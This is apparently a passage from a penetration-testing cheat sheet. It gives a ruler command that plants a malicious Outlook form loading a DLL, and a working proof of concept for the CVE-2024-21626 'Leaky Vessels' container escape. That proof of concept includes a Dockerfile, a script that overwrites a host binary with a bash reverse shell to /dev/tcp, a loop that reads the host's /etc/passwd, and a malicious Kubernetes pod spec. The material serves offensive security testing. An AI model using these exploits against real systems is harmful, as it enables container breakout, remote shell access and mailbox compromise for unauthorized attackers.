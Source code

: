```c
      break;
  }
  return TRUE;
}
```

```console
$ ruler --insecure --username <DOMAIN>/<USERNAME> --password <PASSWORD> --email <EMAIL> --url <AUTODISCOVER> form add-com --sufix <FORM> --dll ./<FILE>.dll --name <DLL> --body "foobar"
```

## CVE-2024-21626: Leaky Vessels Container Escape

> https://github.com/Wall1e/CVE-2024-21626-POC

### Proof of Concept

#### Dockerfile

```console
FROM ubuntu:20.04
RUN apt-get update -y && apt-get install netcat -y
ADD ./poc.sh /poc.sh
WORKDIR /proc/self/fd/9
```

#### poc.sh

```bash
#!/bin/bash
ip=$(hostname -I | awk '{print $1}')
port=<LPORT>
cat > /proc/self/cwd/../../../bin/bash.copy << EOF
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
EOF

```

#### verify.sh

```bash
#! /bin/bash
for i in {4..20}; do
    docker run -it --rm -w /proc/self/fd/$i ubuntu:20.04 bash -c "cat /proc/self/cwd/../../../etc/passwd"
done
```

### Malicious YAML File

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: CVE-2024-21626
spec:
  containers:
  - name: ubuntu
    image: ubuntu
    workingDir: /proc/self/fd/8
    command: ["sleep"]
    args: ["infinity"] 
```
